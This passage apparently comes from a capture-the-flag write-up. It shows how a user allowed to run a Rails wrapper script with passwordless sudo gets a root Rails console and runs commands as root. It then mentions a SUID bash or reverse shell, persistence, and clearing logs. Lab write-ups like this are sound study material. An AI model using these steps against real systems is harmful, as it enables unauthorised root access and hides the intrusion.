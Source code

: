 In fact, the dodi user can run [rails](https://rubyonrails.org/) as root without using the password.

# User root

Since rails is a Ruby framework, we can also run system commands.

To understand how, i simply run the binary and checked for an help section.
```bash
sudo /usr/local/bin/rvm_rails.sh
```
From the output i saw something very interesting:
```bash
Usage:
  rails COMMAND [options]

You must specify a command:

  new          Create a new Rails application. "rails new my_app" creates a
               new application called MyApp in "./my_app"
  plugin new   Create a new Rails railtie or engine

All commands can be run with -h (or --help) for more information.

Inside a Rails application directory, some common commands are:

  console      Start the Rails console
  server       Start the Rails server
  test         Run tests except system tests
```
We can start a Ruby Rails console as root!

## Rails RCE

But before that, we need to create a rails project.

```bash
sudo /usr/local/bin/rvm_rails.sh new rce
```

Now that we have the project, we can start the console by running the command inside the project folder:
```bash
sudo /usr/local/bin/rvm_rails.sh console
```

Inside the console we can run ruby commands with backticks and check if we are root:

![root rce](./pics/rails_rce.png)

We can now set bash as SUID or get a revshell.

Once we are root, we can set our favourite persistence mechanism and clear logs and tracks.


